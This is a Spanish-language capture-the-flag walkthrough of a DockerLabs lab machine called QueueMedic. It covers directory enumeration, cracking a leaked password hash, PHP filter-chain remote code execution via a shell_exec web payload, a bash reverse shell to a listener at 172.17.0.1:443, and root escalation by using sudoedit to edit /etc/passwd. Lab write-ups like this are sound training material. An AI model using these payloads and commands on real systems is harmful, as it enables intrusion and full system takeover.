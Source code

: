 nmap:  80

![image](https://github.com/user-attachments/assets/2efcdff6-8aab-4844-9d4b-9df84354303e)

---
vamos a la pagina principal y hay un login 
![[dockerlabs/dificil/queuemedic/login.png]]


hacemos un gobuster y nos da algunos que son llamativos
![[dockerlabs/dificil/queuemedic/gobuster.png]]

aquí http://172.17.0.2/patients.php nos da una pagina con un calendario básico
![[calendario.png]]

al /backup nos descargamos el zip y lo descomprimimos. nos da:
![[backup.png]]

ahora entramos a una carpeta que nos dio llamada /db/ y nos da un txt que dentro hay un nombre o dos junto a una posible contraseña.
> castrojessica

![[clave.png]]

utilizamos esta herramienta https://github.com/urbanadventurer/username-anarchy
para que nos genere contraseñas basadas en los nombres encontrados

dentro de la carpeta viendo el manual, creamos: nano username
> jessica castro

guardamos

ahora hacemos:

    ./username-anarchy -i username > users

y nos dará: 
![[username.png]]

también podemos ver que en el archivo "clinic_queuing_db.db " sale al contraseña 
y podemos hacerlo mas fácil  
pasamos la contraseña un hash 

>  $2y$10$iDHQftaCCEPmdPj/11E3DOGiw3AsOPf6uYBpEAuh8J19oeGuloJIK

  la pasamos a hash, nano hash y pegamos la contraseña
 ahora 
     
     john --wordlist=wordlist.txt hash
 
 y nos da la contraseña: 
 > j.castro
 
 ![[crack.jpg]]
 
ahora vamos al login.php e ingresamos las credenciales:
> jessica / j.castro

y estamos dentro del panel
![[dockerlabs/dificil/queuemedic/panel1.png]]

tomamos el nombre principal de la pagina que dice:  # Clinic Queuing System

buscamos un exploit y encontramos: https://www.exploit-db.com/exploits/52008
que vemos que podemos filtrar por php:  py filter_chain 
![[filtro.png]]

buscamos un exploit en github: https://github.com/synacktiv/php_filter_chain_generator/blob/main/php_filter_chain_generator.py

ahora copiamos el código  

creamos:
> nano filter.py / pegamos el código guardamos


![[dockerlabs/dificil/queuemedic/codigo1.png]]

> ahora python3 filter.py

ahora  en el terminal colocamos:
> python3 filter.py --chain '<?php echo shell_exec($_GET["cmd"]);?>'

nos dará un código que lo copiamos
![[dockerlabs/dificil/queuemedic/codigo2.png]]


y colocamos el buscador así:  172.17.0.2/?cmd=ls -la&page= y aquí colocamos el código que nos dio  que es vulnerable a ejecución de código remoto (RCE)
![[dockerlabs/dificil/queuemedic/codigo3.png]]

ahora la URL debe quedar así:  172.17.0.2/?cmd=bash -c 'bash -i >%26/dev/tcp/172.17.0.1/443 0>%261'&page= y aquí colocamos el código que nos dio

dejamos la terminal en escucha y lanzamos
![[dockerlabs/dificil/queuemedic/conexion.png]]

y estamos dentro, buscando no encontré mucho y probé con las mismas credenciales ya que no hay otro usuario aparte de jessica y root:  jessica / j.castro
![[jessica.png]]

ahora al hacer sudo -l aparece:  (root) NOPASSWD: sudoedit /var/www/html/*

para escalar encontré: 
![[sudoedit.png]]

o sea que puedo modificar el archivo, encontré este comando para poder dar el permiso de modificar por decir asi:

    export EDITOR='nano -- /etc/passwd'

ahora editamos:
  
    sudoedit /var/www/html/index.pgsd

le quitamos la x a root 
![[dockerlabs/dificil/queuemedic/root1.png]]
![[pasos1.png]]
colocamos su root y somos root!
![[suroot.png]]
muchas gracias! 
